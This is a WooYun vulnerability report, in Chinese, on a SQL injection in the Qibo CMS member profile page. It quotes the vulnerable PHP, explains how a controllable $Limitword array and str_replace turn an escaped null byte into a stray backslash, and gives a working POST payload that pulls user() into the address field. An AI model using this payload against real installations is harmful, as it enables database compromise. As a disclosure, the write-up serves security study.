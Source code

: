 ## WooYun-2014-80259：齊博整站-地方門戶SQL注入漏洞

### 詳細說明

看到/member/userinfo.php，112到114行：

```php
//過濾敏感字元

$truename=replace_bad_word($truename);

$introduce=replace_bad_word($introduce);

$address=replace_bad_word($address);
```

這幾句過濾程式碼，意思是想過濾一些"不和諧"的詞語。那我們看看這個replace_bad_word函數。

```php
function replace_bad_word($str){

    global $Limitword;

    @include_once(ROOT_PATH."data/limitword.php");

    foreach( $Limitword AS $old=>$new){

        strlen($old)>2 && $str=str_replace($old,trim($new),$str);

    }

    return $str;

}
```

實際上是一個str_replace，看看data/limitword.php：

```php
<?php 

$Limitword['吃肉']='吃**';

$Limitword['安安你好']='安****好';
```

$Limitword並沒有初值。而include有global $Limitword。
齊博cms是將GET和POST變數註冊成全局變數了，所以global取到的可以是`$_POST[Limitword]`或`$_GET[Limitword]`。也就是說$Limitword是我們可以控制的。

我們可以控制str_replace函數的三個參數。

某變數$str全局做過轉義，導致%00轉義成了\0.我們能夠控制str_replace的前兩個參數，則str_replace('0', '', $str)，再將0轉換成空，則留下了\，這個\可以轉義其後的\'，使之變成\'，導致單引號逃逸出轉義符的限制，造成注入。


```php
$truename=filtrate($truename);

$idcard=filtrate($idcard);

$telephone=filtrate($telephone);

$address=filtrate($address);

$introduce=filtrate($introduce);

$homepage=filtrate($homepage);

function filtrate($msg){

    //$msg = str_replace('&','&amp;',$msg);

    //$msg = str_replace(' ','&nbsp;',$msg);

    $msg = str_replace('"','&quot;',$msg);

    $msg = str_replace("'",'&#39;',$msg);

    $msg = str_replace("<","&lt;",$msg);

    $msg = str_replace(">","&gt;",$msg);

    $msg = str_replace("\t","   &nbsp;  &nbsp;",$msg);

    //$msg = str_replace("\r","",$msg);

    $msg = str_replace("   "," &nbsp; ",$msg);

    return $msg;

}
```

將'等敏感字符過濾了。就算有一個\可以轉義一個'，但是這裡連'都引入不了。
執行的語句類似update table set a='111',b='222' where uid=1，我們引入一個\在111的最後，轉義掉111後面的引號，這樣222就逃逸出了限制，我們的sql注入語句就可以放在222的位置執行了。


### 漏洞證明

先註冊一個用戶

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-1.jpg)

記下自己的uid，以便一會更新資料：

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-2.jpg)

可以先測試一下是否存在注入：

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-3.jpg)


報錯了，說明注入是存在的。
簡單構造一下，向http://localhost/qibov7/member/userinfo.php?job=edit&step=2發送資料包：
```
truename=xxxx%0000&Limitword[000]=&email=123@...&provinceid=,address=(select user()) where uid=38%23
```

將address注入成為user()。 Where後面加上uid=2，防止把其他人的address也注入了。
查看個人注入的地址，即可見注入獲得的結果：


![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.17/3.17-4.jpg)


### 修復方案
過濾，轉義。